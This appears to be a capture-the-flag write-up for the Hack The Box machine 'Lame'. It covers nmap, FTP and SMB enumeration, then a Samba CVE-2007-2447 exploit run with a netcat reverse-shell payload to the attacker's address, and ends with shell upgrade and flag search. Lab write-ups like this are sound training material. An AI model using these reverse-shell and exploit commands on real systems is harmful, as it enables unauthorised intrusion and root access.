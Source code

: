 **Ping Scan**
```
ping 10.10.10.3
```
![[Pasted image 20240610204904.png]]
Ping worked, So machine is reachable.

**Nmap default**
```
nmap 10.10.10.3 -oN dnmap
```
![[Pasted image 20240610205000.png]]

**Nmap Scrip scan**
```
nmap 10.10.10.3 -sV -sC -oN snmap
```
![[Pasted image 20240610205430.png]]
![[Pasted image 20240610205447.png]]

**Nmap SNMP Scan**
```
nmap -sU -p 161 10.10.10.3
```
Snmp is filtered
![[Pasted image 20240610211418.png]]

**Nmap all port Scan**
```
nmap 10.10.10.3 -p- -T5 --open -oN anmap
```
can see an new open port 3632.
![[Pasted image 20240610210628.png]]

Scrip and service scan for the new port
```
nmap -sV -sC -p3632 10.10.10.3 -oN 3632nmap
```
![[Pasted image 20240610211318.png]]


**FTP Enum**
Can login as ftp or Anonymous, but no file or directory inside Ftp Session.
```
ftp 10.10.10.3
```
![[Pasted image 20240610205641.png]]

**Smb Enumeration**
```
smbmap -H 10.10.10.3
```
Can list shares without creds.
![[Pasted image 20240610205845.png]]

```
smbclient -N //10.10.10.3/tmp
```
can list the content of share ''tmp''
![[Pasted image 20240610210151.png]]


Lets try to Get initial foothold on the machine using our findings.

First will move with the Smb Share we have found read and writable.
We can se the is a file "vgauthsvclog.txt.0" is present, will get that and analyze.
```
get vgauthsvclog.txt.0
```
![[Pasted image 20240610212722.png]]

```
cat vgauthsvclog.txt.0
```
![[Pasted image 20240610213013.png]]
Nothing useful.

**Search For Public exploit**
On this initial enumeration on smb, we can see its  version, will search is there any public exploit for smb version.
Yes, there is an exploit code: https://github.com/Ziemni/CVE-2007-2447-in-Python/blob/master/smbExploit.py
![[Pasted image 20240610213247.png]]
![[Pasted image 20240610213345.png]]

**Ok No will use the exploit.**
I have saved the exploit code in a file named 'exp.py' in my kali machine and just ran the program, and I can see the usage and ran accordingly.
```
python3 exp.py 10.10.10.3 139 'nc -e /bin/sh 10.10.14.61 443'
```
![[Pasted image 20240610213422.png]]

**Set up an Netcat listener on 443 to catch reverse shell**
```
rlwrap nc -nlvp 443
```
![[Pasted image 20240610213652.png]]
Coooool....! We landed on root shell, so no need Privilege escalation on the machine.

Then upgraded my shell, the machine has python's initial version, there is no python 3 or 2.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240610213805.png]]

Will search for flag in root and home directory
```
find / -type f -name "root.txt" 2>/dev/null
```
```
find / -type f -name "user.txt" 2>/dev/null
```
![[Pasted image 20240610214312.png]]

We found root flag in root directory
![[Pasted image 20240610213946.png]]

And User flag on /home/makis
![[Pasted image 20240610214456.png]]



Done With Lame....:)
